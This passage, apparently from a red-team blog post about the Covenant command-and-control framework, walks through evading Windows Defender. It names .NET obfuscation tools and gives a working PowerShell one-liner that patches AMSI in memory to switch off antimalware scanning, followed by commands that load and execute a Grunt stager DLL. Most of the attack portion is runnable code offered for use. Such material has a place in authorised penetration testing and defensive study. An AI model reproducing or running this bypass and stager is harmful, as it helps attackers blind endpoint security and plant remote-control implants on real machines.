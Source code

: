 
- [NET-Obfuscate:](https://github.com/BinaryScary/NET-Obfuscate) Obfuscate ECMA CIL (.NET IL) assemblies to evade Windows Defender

Since our project, both for the DLL and for the EXE are stored and managed in Visual Studio we could also take advantages of [ConfuserEx](https://github.com/mkaring/ConfuserEx) than can also be installed from the Visual Studio marketplace. 


We can go an extra mile here and we can perform some .NET reflection to execute or __Grunt__ stager. Altought not very realistic at this stage we can use this approach at different stage of our engagement. 



__Note:__ The most basic (although not very interesting) method of loading and running this code, is from disk using PowerShell🚩:


```powershell

# Patch Amsi
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

PS > [System.Reflection.Assembly]::LoadFile("C:\Users\IEUser\Desktop\covenant-DLL-noAmsi.dll")
PS > [MonkStager.MonkStager]::Execute()

```

<p align="center">
  <img src="/assets/posts/2021-07-01-Entering-the-Covenant-C2C/cov5.JPG">
</p>
